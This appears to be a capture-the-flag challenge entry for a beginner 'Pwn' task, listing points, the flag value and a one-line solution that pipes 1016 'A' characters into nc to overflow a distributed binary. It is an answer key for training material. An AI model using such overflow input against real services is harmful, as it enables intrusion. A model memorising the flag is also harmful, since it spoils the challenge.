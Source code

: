 # Exploitation 1
## Author

## Points
100
## Category
Pwn
## Description

## Flag
`7c1fbb502632bffa6e62ba6fa847681f`
## Solution
`python -c 'print "A"*1016' | nc [ip] [port]`
## Setup
Distribute `exploit1`
